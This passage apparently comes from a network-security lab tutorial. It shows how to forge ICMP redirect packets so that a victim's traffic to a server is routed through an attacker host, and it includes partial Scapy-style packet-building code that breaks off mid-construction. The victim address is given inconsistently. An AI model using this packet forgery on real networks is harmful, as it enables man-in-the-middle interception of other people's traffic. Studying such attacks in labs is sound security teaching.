

2. Forge ICMP redirect packets
We want that every packet sent by the victim (10.100.13.26) and directed for the server (10.23.56.100) first need to pass for the Attacker (10.100.13.20)
What we want do do now is:
◇
create an IP packet from source 10.100.13.1 (gateway), destination 10.100.13.126 (victim) ◇
containing and ICMP redirect instruction (type 5) that inform a new (fake) gateway exists at 10.100.13.20 (Kali) for destination 10.23.56.100.
ip=IP()
ip.src=[Original_Router_IP_Gateway_of_the_Network]
ip.dst=[IP_Victim_Address]
icmp=ICMP()
icmp.type=5
icmp.code=1
icmp.gw=[IP_Attacker]
ip2=IP()
ip2.src=[IP_Victim_Address]
ip2.dst=[IP_Server]